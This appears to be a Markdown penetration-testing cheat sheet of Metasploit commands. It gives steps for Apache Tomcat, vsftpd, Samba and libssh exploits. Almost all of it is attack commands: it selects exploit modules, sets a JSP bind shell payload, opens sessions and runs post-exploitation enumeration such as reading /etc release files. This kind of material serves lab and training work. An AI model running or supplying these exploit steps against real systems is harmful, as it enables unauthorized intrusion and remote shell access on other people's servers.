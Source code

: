 #### TOMCAT

```bash
# APACHE TOMCAT
search type:exploit tomcat_jsp
use exploit/multi/http/tomcat_jsp_upload_bypass
check

set payload java/jsp_shell_bind_tcp
set SHELL cmd
run
```

### Linux Exploitation

#### FTP

```bash
# FTP
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor

/bin/bash -i
```

#### SAMBA

```bash
# SAMBA
search type:exploit name:samba
use exploit/linux/samba/is_known_pipename

# After exploit, proceed with Shell To Meterpreter if necessary
```

#### SSH

```bash
# SSH
search libssh_auth_bypass
use auxiliary/scanner/ssh/libssh_auth_bypass
set SPAWN_PTY true
run
sessions
sessions 1

# After exploit, proceed with Shell To Meterpreter if necessary
```

```bash
# Some shell enumeration
id
cat /etc/*release
uname -r
```
